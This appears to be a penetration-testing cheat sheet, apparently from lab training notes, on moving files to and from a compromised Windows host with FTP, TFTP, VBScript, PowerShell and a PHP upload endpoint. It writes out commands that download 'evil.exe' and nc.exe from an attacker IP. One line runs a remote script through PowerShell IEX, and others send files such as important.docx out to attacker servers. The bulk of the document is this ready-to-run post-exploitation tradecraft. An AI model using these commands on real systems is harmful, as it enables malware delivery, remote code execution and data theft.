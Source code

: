 # Transfer files

## ProFTP
Installing the pure-ftp
```bash
sudo apt update && sudo apt install pure-ftpd
```

Pure FTP setup script
```bash
#!/bin/bash

groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd
```

Copy files to ftphome user
```bash
sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/	
````

On Windows
```cmd
C:\Users\offsec>echo open 10.11.0.4 21 > ftp.txt
C:\Users\offsec>echo USER offsec >> ftp.txt
C:\Users\offsec>echo lab >> ftp.txt
C:\Users\offsec>echo bin >> ftp.txt
C:\Users\offsec>echo GET nc.exe >> ftp.txt
C:\Users\offsec>echo bye >> ftp.txt
```

```bash
ftp -v -n -s:ftp.txt
```

## VBScript
```vbscript
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = 
	CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs	
```

```vbscript
cscript wget.vbs http://[IP]]/evil.exe evil.exe
```

## PowerShell
```powershell
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://[IP]/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

### Remote execution []
```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
````

## TFTP
It works in old windows versions
```bash
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

On windows:
```bash
tftp -i 10.11.0.4 put important.docx
```

## Transfer with webserver
### PHP
Create script to upload files
```php
<?php
$uploaddir = '/var/www/html/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Config uploads folder
```bash
mkdir uploads
chown www-data uploads
```

### How to consume
Client
```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://[IP]/upload.php', '[file.name]')
```

```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.168/upload.php', 'windows.txt')
```